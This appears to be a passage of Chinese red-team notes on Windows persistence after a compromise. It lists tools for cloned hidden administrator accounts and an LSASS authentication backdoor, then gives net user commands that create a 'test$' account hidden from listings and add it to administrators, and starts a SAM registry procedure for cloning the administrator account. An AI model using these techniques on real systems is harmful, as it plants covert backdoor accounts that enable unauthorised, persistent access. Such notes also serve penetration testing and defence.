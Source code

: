 **相关项目/工具**
* [Ch1ngg/AggressorScript-CreateCloneHiddenAccount](https://github.com/Ch1ngg/AggressorScript-CreateCloneHiddenAccount) - 创建一个克隆隐藏的管理员账号
* [An0nySec/ShadowUser](https://github.com/An0nySec/ShadowUser) - 影子用户 克隆
* [lengjibo/NetUser](https://github.com/lengjibo/NetUser) - 使用 windowsapi 添加用户，可用于 net 无法使用时
* [kindtime/nosferatu](https://github.com/kindtime/nosferatu) - Lsass NTLM Authentication Backdoor
* [0x727/CloneX_0x727](https://github.com/0x727/CloneX_0x727) - 进行克隆用户、添加用户等账户防护安全检测的轻巧工具
    ```
    CloneX.exe test 123456  # 新建用户
        CloneX.exe *test 123456  # powerful mode
    CloneX.exe test test1   # 克隆存在的用户
    ```

**$ 符号**

```bash
net user test$ 1234abcd~ /add                 # 添加用户
# Windows 的帐号名称后带着"$"符号时,不会在 net user 命令中显示出帐号信息
# 但是，在“计算机管理”——>“本地用户和组”——>“用户”中可以看到新创建的 “test$”。

net localgroup administrators test$ /add      # 将用户添加到管理组

net user test$ /del                           # 删除用户
query user                                      # 查看会话
logoff <ID号>                                   # 踢掉
```

**改注册表**

新建 test$ 用户,不需要加入到管理员组
```
net user test$ 1234abcd~ /add
```

打开注册表 `regedit`，给予administrator完全控制和读取注册表SAM键的权限

修改 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users`

将 `test$` 、和 `test$`、administrator对应注册表导出

![](../../../../assets/img/Security/RedTeam/后渗透/权限维持/7.png)
